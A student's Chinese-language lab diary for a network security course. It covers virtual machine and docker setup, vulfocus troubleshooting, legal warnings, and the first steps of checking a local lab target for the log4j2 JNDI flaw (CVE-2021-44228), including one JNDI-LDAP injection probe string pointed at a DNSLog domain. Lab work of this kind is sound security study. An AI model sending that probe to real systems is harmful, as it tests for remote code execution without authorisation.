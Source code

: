 ## 实验日志

Ani

---

#### 实验目的

完成 **基础团队实践训练** ：开源信息系统搭建、加固与漏洞攻防

团队分工跟练复现完成 [网络安全(2021) 综合实验](http://courses.cuc.edu.cn/course/109860/learning-activity/full-screen#/554139) 。无论团队由多少人所组成，以下按本次实践训练所涉及到的人员能力集合划分了以下团队角色。一人至少承担一种团队角色，老师将按照该角色的评价标准进行 基于客观事实的主观评价 

- 红队：需完成漏洞存在性验证和漏洞利用

- 蓝队威胁监测：漏洞利用的持续检测和威胁识别与报告

- 蓝队威胁处置：漏洞利用的缓解和漏洞修复（源代码级别和二进制级别两种）

上述能力的基本评分原则参考 “道术器” 原则：最基础要求是能够跟练并复现 [网络安全(2021) 综合实验](http://courses.cuc.edu.cn/course/109860/learning-activity/full-screen#/554139) 中演示实验使用到的工具；进阶标准是能够使用课程视频中 **未使用** 的工具或使用编程自动化、甚至是智能化的方式完成漏洞攻击或漏洞利用行为识别与处置

---

7.15 - 7.20 学习相关课程以及资料，并完成分工

#### 负责工作

- 作为红队完成对漏洞的存在性检验以及实现漏洞利用
- 作为蓝队完成漏洞利用的缓解
- 实现自动化脚本

#### 学习相关课程和资料

因为要考 IELTS 和上它的课程，所以拉长了前期的准备时间且我正式开始实验的时间比较晚

课程 `Wiki`：[2023 传媒网安教学 Wiki](https://c4pr1c3.github.io/cuc-wiki/cp/2023/index.html)

课程链接：[网络安全(2021) 综合实验](http://courses.cuc.edu.cn/course/109860/learning-activity/full-screen#/554139)

课程课件：[网络安全综合实验课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/title-slide)

相关法律意识：[《中华人民共和国网络安全法》](http://www.cac.gov.cn/2016-11/07/c_1119867116.htm)、《刑法》、[《网络产品安全漏洞管理规定》](http://www.gov.cn/zhengce/zhengceku/2021-07/14/content_5624965.htm)

>《刑法》
第二百八十五条　【非法侵入计算机信息系统罪；非法获取计算机信息系统数据、非法控制计算机信息系统罪；提供侵入、非法控制计算机信息系统程序、工具罪】违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。

>违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。

>第二百八十六条 违反国家规定，对计算机信息系统功能进行删除、修改、增加、干扰，造成计算机信息系统不能正常运行，后果严重的，处五年以下有期徒刑或者拘役；后果特别严重的，处五年以上有期徒刑。

>违反国家规定，对计算机信息系统中存储、处理或者传输的数据和应用程序进行删除、修改、增加的操作，后果严重的，依照前款的规定处罚。

>故意制作、传播计算机病毒等破坏性程序，影响计算机系统正常运行，后果严重的，依照第一款的规定处罚。

[从零到一带你深入 log4j2 Jndi RCE CVE-2021-44228 漏洞](https://www.anquanke.com/post/id/263325)

---

#### 课程记录 & 实验记录

7.20 重置电脑，重装系统，删除了以往的文件和配置并对 C 盘和 D 盘进行重新分配

7.21 配置虚拟机环境

- 虚拟机双网卡可能需要自行分配 `IP` 地址

通过 ```ip a``` 查看是否分配好了双网卡的地址，若无，则需要手动配置：

修改网络配置文件

```bash
sudo vim /etc/network/interfaces
```

在文件中写入

```bash
allow-hotplug eth0
iface eth0 inet dhcp

allow-hotplug eth1
iface eth1 inet dhcp
```

保存退出后执行

```bash
sudo ifdown eth0 && sudo ifup eth0
sudo ifdown eth1 && sudo ifup eth1
```

但我这次使用的 `VMware` 已经自动分配好了

- 使用多重加载

但 `VMware` 没有该功能选项

- 善用快照进行备份或还原

- 虚拟机后台运行，减少宿主机工作

- 课程靶场推荐

    - [vulhub/vulfocus](https://github.com/vulhub/vulhub)
    - [fofapro/vulfocus](https://github.com/fofapro/vulfocus)
    - [sqlsec/ssrf-vuls](https://github.com/sqlsec/ssrf-vuls)

- `vulfocus` 简易教程

    - [老师版简易教程](https://github.com/c4pr1c3/ctf-games/tree/master/fofapro/vulfocus)

7.22 新建第二个虚拟机的时候，因为 `VMware` 没有多重加载功能，一开始脑抽用了同一个硬盘导入...于是，我删了新建的虚拟机而一开始的虚拟机还原快照终于能打开，然后不停的删除和重配环境，之前虽然弄了快照但是弄的时机不太好导致还是要重新配置很多环境，搞着搞着发现有缺失，最后重新下载镜像，重新配置环境

最终解决方式为将新下载的镜像复制一个镜像副本作为第二台虚拟机的硬盘

![shuangchong](img/shuangchong.png)

emm 后面做着做着虚拟机挂了，直接打不开了，下了 `virtualbox` 做，补充一个多重加载的截图

![duochong](img/duochong.png)

7.23-7.28

- 使用 `ssh-copy-id` 进行免密登录的配置

命令报错，改用 `scp` 直接把公钥传到虚拟机

- 单个漏洞靶标

1. 找到靶标的【访问入口】

看实验中启动的镜像提示

2. 收集【威胁暴露面】信息

3. 检测漏洞存在性

主要有两种方法：

- 确认受漏洞影响组件的【版本号】

- 源代码审计

实验中采用第二种方法

```bash
docker exec -it 容器名 bash
```

不一定是 `bash`，具体看路径，根据环境变量进行改写

```bash
cat /etc/shells
```
查看可加载的路径

```bash
docker cp 容器名：路径+文件 保存路径
```
找到 `jar` 文件，反编译找到有问题的代码

4. 验证漏洞可利用性

使用 `PoC` 手动测试` ${jndi:ldap://0qxc3d.dnslog.cn/exp` ，域名改为 [DNSLog.cn](http://www.dnslog.cn/) 中随机生成的

然后这里做着做着各种报错：

![bug](img/bug.png)

![bug1](img/bug1.png)

![bug3](img/bug3.png)

一开始看到一篇文章说可能是镜像问题，配置外网镜像就可以了，一开始修改了，但问题仍然无法解决。后面多次重启 `docker` 和换源的配置文件，可能过程中造成了什么冲突导致配置文件又无法修改了，改着改着虚拟机直接挂了打不开，也就是前面说到了转移阵地去 `virtualbox` 了，然后所有步骤又重复一遍...

然而并没有用，重复一遍问题依然存在

试了几个方法：

[vulfocus不能同步的解决方法/vulfocus同步失败](https://blog.csdn.net/m0_64563956/article/details/131229046#:~:text=GitHub%20-%20fofapro%2Fvulfocus%3A%20%F0%9F%9A%80Vulfocus%20%E6%98%AF%E4%B8%80%E4%B8%AA%E6%BC%8F%E6%B4%9E%E9%9B%86%E6%88%90%E5%B9%B3%E5%8F%B0%EF%BC%8C%E5%B0%86%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%20docker%20%E9%95%9C%E5%83%8F%EF%BC%8C%E6%94%BE%E5%85%A5%E5%8D%B3%E5%8F%AF%E4%BD%BF%E7%94%A8%EF%BC%8C%E5%BC%80%E7%AE%B1%E5%8D%B3%E7%94%A8%E3%80%82%20docker%E6%8A%8Avulfocus%E7%9A%84image%EF%BC%88docker,vulfocus%2Fvulfocus%20docker%20ps%20-a%20docker%20start%20%7Bcontainer-id%7D%20%E6%89%93%E5%BC%80%E7%BD%91%E7%AB%99%E5%87%BA%E7%8E%B0%E2%80%9C%E6%9C%8D%E5%8A%A1%E5%99%A8%E5%86%85%E9%83%A8%E9%94%99%E8%AF%AF%E9%97%AE%E9%A2%98%E2%80%9D%EF%BC%8C%E8%80%8C%E4%B8%94%E9%95%9C%E5%83%8F%E5%90%8C%E6%AD%A5%E5%A4%B1%E8%B4%A5)
 
即修改镜像源，报错不能解决

[修改文件中的 url](https://github.com/fofapro/vulfocus/issues/299)

即将容器内部的 `/vulfocus-api/dockerapi/views.py `文件拷贝至主机当前目录并修改当前目录下拷贝出来的 `views.py` 文件，修改 `get_timing_imgs` 函数，将 `vulfocus.fofa.so` 替换成 `vulfocus.io`，最后将修改好的 `views` 文件重新复制回容器内部，报错仍不能解决

切换至 `root` 下执行相关命令，也不能解决

然后试着试着 `docker` 也出现问题，例如：

![bug2](img/bug2.png)

查看日志后说是 `docker` 启动的问题

于是尝试了各种方法，诸如

更改至 `root` 下执行相关命令，修改下列文件配置等等

![xiugai](img/xiugai.png)

但问题还是没得到解决

5. 评估漏洞利用效果




